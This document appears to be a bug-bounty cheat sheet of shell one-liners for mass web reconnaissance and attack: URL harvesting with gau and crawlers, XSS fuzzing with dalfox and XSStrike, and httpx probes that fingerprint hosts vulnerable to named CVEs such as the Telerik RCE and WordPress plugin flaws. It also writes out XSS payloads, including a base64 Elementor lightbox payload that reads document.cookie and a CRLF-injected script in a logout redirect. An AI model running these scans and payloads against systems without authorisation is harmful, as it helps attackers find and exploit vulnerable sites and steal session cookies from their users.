 ## XSS
    echo vulnweb.com | gau | tee domain.txt
    httpx -l domain.txt -mc 200,302 -o domain200.txt 
    cat domain200.txt | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | tee domain4xss.txt 
    cat urls.txt | uro 
    dalfox file domain4xss.txt -b (xss.ht or collaborator) pipe 
    cat indeed.txt | kxss > xss.txt 
    python XSStrike/xsstrike.py --seeds domain4xss.txt --fuzzer --level 3 -rate 2 --blind --file-log-level WARNING --log-file output.log

    cat list.txt | httpx | xargs -I {} python xsstrike.py -u {} --level 3  --blind --file-log-level WARNING --log-file output.log

## paramReflect
    cat urls.txt | go run ParamsReflect.go
    cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200

## gau+uro+httpx(My Xss)
     cat domains.txt | gau --blacklist 3dm,3ds,3gp,7z,aac,ai,aif,apk,avi,bat,bin,BMP,bz2,cfg,class,CR2,csh,css,csv,dat,deb,dmg,doc,docx,dwg,eot,EPS,exe,EXIF,flac,flv,gba,gdb,gif,gz,HEIC,hqx,ICO,ico,ics,iso,jar,jpeg,jpg,js,json,lua,m4a,m4v,mov,mp3,mp4,msi,NEF,nes,nrg,odp,ods,odt,ogg,ogv,otf,PBM,pdf,PGM,pkg,plist,png,PPM,ppt,pptx,ps,PSD,RAW,rb,rpm,rtf,srt,SVG,svg,swf,sys,tar,TGA,TIFF,ttf,txt,vob,wav,WEBP,webp,woff,woff2,xls,xlsx,xml,xpi,yaml,z64,z7,zip --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp --o domain4xss.txt

     cat domains.txt | uro --filter hasparams | qsreplace '"><h1>Akira</h1>' > domain4httpx.txt

     cat domain4httpx.txt | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt

    #Note: have a server ? use:
    cat domains.txt | gau --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp | uro | grep -E 'https?://[^?]+\?[a-zA-Z0-9_]+=[^&]+(&[a-zA-Z0-9_]+=[^&]+)*' | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt
   
## one-Line:
    cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt

    cat params.js [.py|.go|paramspider.py] | uro --filter hasparams -b jpg png js json pdf txt -o 4xss.txt
## subdomain enumeration
    amass enum -active -d <DOMAIN> -dir amass_active/<DOMAIN>/
    amass enum -passive -d <DOMAIN> -dir amass_passive/<DOMAIN>/
    assetfinder <DOMAIN> | tee ./subdomains/assetfinder.txt

## web crawling
    for i in $(cat hosts-urls.txt); do katana -u $i >> ./katana_rzlts.txt; done
    cat hosts-urls.txt | hakrawler -timeout 5 -subs | tee ./hakrawler_rzlts.txt
    cat hosts-live.txt | gau --threads 15 | tee ./gau_rzlts.txt
    cat hosts-live.txt | waybackurls | tee ./wburls_rzlts.txt

## filtering
        cat katana_rzlts.txt hakrawler_rzlts.txt gau_rzlts.txt wburls_rzlts.txt | sort -u > uniq.txt; cat uniq.txt | grep "<DOMAIN>" | grep "\?" > 4xss.txt

## only params:
    grep -E -o 'https?://[^ ]+\?.+' filename

## wordpressXss:
    cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200

## Telerik_RCE(CVE-2017-11317)
    cat subs.txt | httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms '"RadAsyncUpload handler is registered succesfully' -t 200 -o telerik2.txt
    
## zoneminder_RCE CVE-2023-26035
    cat alldomains.txt | httpx -path "/index.php" -ms 'name="__csrf_magic"' -t 200 -o CVE-2023-26035.txt

## CVE-2023-38388
    cat privates/domainsroot.txt | httpx -path "/wp-content/plugins/jupiterx-core/readme.txt" -ms "Jupiter X Core" -o jupiter.txt

## CVE-2023-4596
    cat bugbounty/subs.txt | httpx -path '/wp-content/plugins/forminator/readme.txt' -ms  "Stable tag: 1\.([0-2][0-9]|3[0-6])\.[0-9]+" -o "forminator.txt"

## fusion-CVE-2022-1386.txt
    cat alldomains.txt | httpx -path "/wp-content/plugins/fusion-builder/readme.txt" -ms "Builder =" -o fusion-CVE-2022-1386.txt
    
## TeamCity
    cat alldomains.txt | httpx -path "/login.html" -ms "log in to teamcity" -o teamcity.txt

## CVE-2023-35078
    cat alldomains.txt | httpx -ms "ui.login.css?" -o CVE-2023-35078.txt

    /wp-content/plugins/forminator/readme.txt
## Elementor Xss
    cat subs.txt | httpx -path "wp-content/plugins/elementor/readme.txt" -mr "(?i)Stable tag: (3\.[0-5]\.[0-5]\d*)" -o elementor.txt -t 200
    www.target.com/#elementor-action:action=lightbox&settings=ewogICAgInR5cGUiOiAidmlkZW8iLAogICAgInVybCI6ICJodHRwOi8vIiwKICAgICJ2aWRlb1R5cGUiOiAiaG9zdGVkIiwKICAgICJ2aWRlb1BhcmFtcyI6IHsKICAgICAgICAib25lcnJvciI6ImFsZXJ0KGRvY3VtZW50LmRvbWFpbisnICcrZG9jdW1lbnQuY29va2llKSIsCiAgICAgICAgInN0eWxlIjogImJhY2tncm91bmQtY29sb3I6cmVkIgogICAgfQp9
    
## Symphonic
    cat subs.txt | httpx -path "_fragment" -ms 'Oops An Error Occurred' -o symphonic.txt -t 200
    
## Open Redirect
    cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt

    
    echo "https://web.archive.org/cdx/search/cdx?url=*.example.com&fl=original&collapse=urlkey" | httpx -er '(https?://[^&\s]+)[^&\s]*(\?|&)(outurl=|redirectionURL=|refURL=|returnURL=|siteurl=|targetURL=|urlTo=|redirectLocation=|redirectPage=|redirectPath=|redirectUrlTo=|urlRedirect=|redirectTo=|linkTo=|urlOut=|outboundUrl=|navTo=|jumpTo=|clickTo=|linkURL=|directTo=|moveTo=|outgoing_url=|outbound_link=|location_to=|forward=|from_url=|go=|goto=|host=|html=|image_url=|img_url=|load_file=|load_url=|login?to=|login_url=|logout=|navigation=|next=|next_page=|out=|page=|page_url=|path=|port=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|reference=|return=|returnTo=|return_path=|return_to=|return_url=|rt=|rurl=|show=|site=|target=|to=|uri=|url=|val=|validate=|view=|window=|location=|link=|click=|move=|jump=|follow=|nav=|ref=|locationURL=|redirectURL=|redirect_to_url=|pageurl=|navigate=|returnUrl=|redirectlink=|redirection=|referral=|direct=|forwardto=|gotoURL=|outlink=|targ=|linkto=|sendto=|dest=|destURL=|destination=|finalURL=|newUrl=|goToUrl=|navToURL=|referralURL=|returnURI=|uri_redirect=|path_redirect=|url_redirect=|location_redirect=|returnPath=|returnToURL=|outgoingURL=|redirectURI=|redirect_path=|redirect_url_path=|targetPath=|clickTarget=|followURL=|linkOut=|location_href=|jumpURL=|returnLink=|refLink=|sendURL=|url_destination=|redirect_destination=|goto_url=|forward_url=|nav_to=|move_to_url=|url_location=|redirect_location=|target_url=|target_link=|return_url_path=|return_to_path=|outgoing_link=|link_destination=|click_destination=|redirector=|redirection_link=|uri_location=|url_path=|path_to=|path_redirector=|go_url=|forward_link=|location_path=)[^&\s]*' -json | jq '.extracts[]' | sed 's/  "//g'| sed 's/"//g' | sed 's/\[//g' | sed 's/\]//g' | sed 's/,//g' > openredirect.txt

## Host:
    cat domains.txt | httpx -H "Host: example.com" -t 200 -ms 'example.com' -mc 200 -fe "Location: .*example.com.*"
    
## Nuclie
    cat domains.txt | nuclei -nt -es info -ept ssl -o data.txt
    nuclei -l domains.txt -nt -o data.txt
    nuclei -l domains.txt -t cves/2023 -o data.txt
    nuclei -l domains.txt -es info -ept ssl -o data.txt
    
# dirsearch 
    dirsearch -l domain200.txt -e '' -i 200-299 -x 300-599

